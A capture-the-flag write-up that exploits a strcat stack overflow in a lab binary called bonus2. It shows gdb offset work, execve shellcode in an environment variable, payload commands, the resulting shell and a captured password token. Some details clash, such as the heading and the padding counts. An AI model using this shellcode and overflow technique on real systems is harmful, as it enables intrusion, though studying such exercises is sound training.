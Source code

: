 ## BONUS 1
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---

We're becoming familiar the automatisms to solve these levels. As usual, we start by looking the code. The code is too long to be displayed here, so I will just show the part that is interesting for us. If you want to see that whole code, you can find it [here](./src/bonus2.c).

Now that we understand what this code does. We can start our research to exploit this code.

First we need to find the vulnerabity inside the code. The first thing that I noticed is the `strncpy` and `strcat` calls. Let's take a look to find a potential vulnerability.

```c
int
main (int argc, char **argv) {
	char	buffer[72];
[...]
	strncpy(buffer, argv[1], 40);
	strncpy(&buffer[40], argv[2], 32);
[...]
	greetuser(buffer);
}

void
greetuser (char *user) {
	char	buffer[64];
[...]
	strcat(buffer, user);
[...]
}
```

That's interesting! We have two buffers, and it appears that the `greetuser` function copies a buffer larger than its size. This indicates a potential buffer overflow vulnerability. By examining the code, I can see that the buffer inside the `greetuser` function can be filled up to 85 bytes (72 + 13). Therefore, I can overflow the return value of the `greetuser` function.

Now that we have identified the vulnerability and the target for the buffer overflow, the next step is to consider how to obtain the flag. Since the code does not contain any `system` calls, we will need to use a ShellCode. In this case, we can utilize the same ShellCode that we used in previous levels.

The only question im asking to myself is where to put this ShellCode ?

We have two options:
1. Put the ShellCode inside the first argument.
2. Put the ShellCode inside environment variables.

Let's use the second option because we saw in the bonus0 that running code from stack isn't easy !

First I need to find the distance between the buffer in `greetuser` and it's return address. To do that, I will use the `gdb`.

```bash
(gdb) x/a $ebp+4
0xbffff62c:	0x8048630 <main+263>
(gdb) x/32s $esp
[...]
0xbffff5e0:	 "Hello "
[...]
```

So the distance is 0x4c (76 in decimal). You need to remove 6 because of the "Hello " string.
In my case, I will remove 13 because I will set LANG to `fi` and the buffer will be filled with "Hyvää päivää ".
So the distance is 76 - 13 = 63.

Before to fo further I need to be sure of these numbers.

```shell
(gdb) r `python -c 'print "A"*40'` `python -c 'print "A"*23 + "1234"'`
Starting program: /home/user/bonus2/bonus2 `python -c 'print "A"*40'` `python -c 'print "A"*19 + "1234"'`
(gdb) x/32a $ebp
0xbffff638:	0x41414141	0x34333231	0x41414100	0x41414141
```

Perfect ! Now we can continue.
I need to get the address where is store the environment variables.

```shell
$ export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

(gdb) x/s *((char **)environ)
0xbffff8b2:	 "SHELLCODE=\220\220\220\220[...]
```

I will add 0x20 to this address to be sure to be inside the NOP operators and skip the variable name.
    
```shell
(gdb) x/s *((char **)environ)+32
0xbffff8d2:	 "\220\220\220\220\220\220[...]
```

Now I can start to build my payload.

```shell
$ python -c 'print "\x90" * 40' > /tmp/payload_part1
$ python -c 'print "\x90" * 23 + "\xd2\xf8\xff\xbf"' > /tmp/payload_part2
$ ./bonus2 `cat /tmp/payload_part1` `cat /tmp/payload_part2`
Hyvää päivää ��������������������������������������������������������������
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
